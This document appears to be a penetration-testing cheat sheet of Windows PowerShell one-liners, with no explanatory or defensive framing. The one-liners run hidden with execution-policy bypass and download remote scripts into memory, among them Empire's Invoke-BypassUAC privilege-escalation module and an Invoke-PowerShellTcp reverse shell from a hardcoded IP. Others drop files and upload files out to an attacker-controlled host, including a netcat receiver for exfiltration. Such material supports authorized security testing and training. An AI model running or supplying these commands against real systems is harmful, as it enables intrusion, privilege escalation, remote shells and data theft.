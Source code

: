## Start up WebServer

## Run script in memory:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/<FILE>')

powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/<FILE>'))

=========================================

# Download File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/<FILE>', '<FileName>')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/<FILE>', '<FILENAME>')


=========================================


=========================================

# Upload File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/<FILE>', '<FileName>')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/<FILE>', '<FILENAME>')

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>

=========================================

## Upgrade PSH to 64-bit shell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')
